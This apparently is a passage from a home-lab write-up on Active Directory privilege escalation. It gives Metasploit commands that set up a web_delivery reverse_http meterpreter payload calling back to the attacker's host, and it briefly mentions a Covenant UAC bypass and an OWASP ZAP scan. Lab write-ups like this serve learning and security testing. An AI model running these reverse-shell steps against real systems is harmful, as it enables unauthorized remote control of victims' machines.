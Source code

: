 ### Generating Shellcode Payload in Metasploit
- Generated a shellcode payload in Metasploit for a reverse shell on Workstation 01.
- Searched for "web_delivery" in Metasploit to find the suitable module.

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/a1dd2738-295d-4ead-8b07-f60a52260196)

`msf5 > use 1`
`msf5 > exploit(multi/script/web_delivery) > set target 2`
`msf5 > exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_http`

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/7ad95577-8672-4675-9290-6d2b9a93e834)

`msf5 > exploit(multi/script/web_delivery) > options`
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/34de4f18-89c1-4473-a56b-da4f21e6ab35)

  `msf5 > exploit(multi/script/web_delivery) > set lhost eth0`
  `msf5 > exploit(multi/script/web_delivery) > set lport 8081`
  `msf5 > exploit(multi/script/web_delivery) > exploit -j`
  
- Executed the exploit and copied the generated payload.

![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/1058a7e7-b444-4546-85cd-01877e469fdc)

`msf5 > exploit(multi/script/web_delivery) > exploit -j`
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/16e9943a-1508-441c-a73f-06e8465515a3)

Now copy this payload.
- Go back over to the covenant session:
- Blue screen interface.
- Paste the payload and then hit "Enter"
   `msf5 > exploit(multi/script/web_delivery) > sessions`
![image](https://github.com/CertainRisk/ActiveDirectory-PrivilegeEscalation/assets/141761181/f4dd4192-4eea-4170-81c7-770bd0764d4f)

TBC

## Privilege Escalation and Security Testing

### Windows Server 2019 - Privilege Escalation
- **Using Covenant with Metasploit**: Successfully conducted a User Account Control (UAC) bypass attack on Windows Server 2019. This complex process involved leveraging Covenant integrated with Metasploit for effective privilege escalation.

  ![UAC Bypass Using Covenant](Pasted image link here)

### Vulnerability Assessment on UbuntuMail VM
- **OWASP ZAP Usage**: Employed OWASP ZAP, a powerful security testing tool, to identify and analyze vulnerabilities in the UbuntuMail VM. The process included setting up and configuring the tool, followed by thorough testing and result analysis.

  ![OWASP ZAP Analysis](Pasted image link here)
